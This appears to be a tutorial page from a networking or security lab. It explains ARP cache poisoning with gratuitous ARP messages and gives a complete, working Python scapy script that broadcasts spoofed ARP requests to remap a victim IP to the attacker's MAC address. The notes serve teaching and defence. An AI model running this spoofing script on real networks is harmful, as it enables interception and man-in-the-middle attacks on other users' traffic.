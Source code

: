 <br>

### ARP cache poisoning using ARP gratuitous message
An ARP gratuitous message is a type of `arp request` that a host sends out to other machines so that they can update their arp cache with the new information they receive. The following characterizes arp poisoning via arp gratuitous message:
- the destination MAC address in the `Ethernet` header is set to `ff:ff:ff:ff:ff:ff`
- the source IP address in the `ARP` header is set to the IP address of the host you want to spoof
- the destination IP address in the `ARP` header is also set to the IP address of the host you want to spoof
- the destination MAC address in the `ARP` header is set to `ff:ff:ff:ff:ff:ff`
- the operation is set to 1 to indicate an `arp request`

The below code demonstrates arp cache poisoning via ARP gratuitous messages

```python
#!/usr/bin/env python3

import sys
from scapy.all import *

def main():
    # Ensure correct usage
    if len(sys.argv) != 2:
        usage()
        sys.exit(2)
        
    # unpack values
    psrc_ = sys.argv[1]
    pdst_ = sys.argv[1]
    
    # construct packet
    E = Ether(dst = 'ff:ff:ff:ff:ff:ff')
    A = ARP(psrc = psrc_, pdst = pdst_, op = 1, hwdst = 'ff:ff:ff:ff:ff:ff')
    sendp(E/A, verbose=0)
    print(f'sent gratituos ARP request')
    
def usage():
    print("Usage: ./arp-gratuitous.py <src-ip>\
    \n\tsrc-ip: IP address of the host you want to map to your MAC address\n")
    
    
if __name__ == '__main__':
    main()
```

##### Side notes
- an `arp request` will always add an entry to the arp cache of the destination. If an entry already exists, an `arp request` causes the destination host to update the entry in its arp cache.
- an `arp reply` will never add an entry to the arp cache of the destination. However, if an entry already exists, an `arp reply` causes the destination host to update the entry in its arp cache.
- `arp gratuitous message` just like an `arp reply` will never add an entry to the arp cache of the destination. However, if an entry already exists, the `gratuitous arp message` causes the destination host to update the entry in its arp cache.
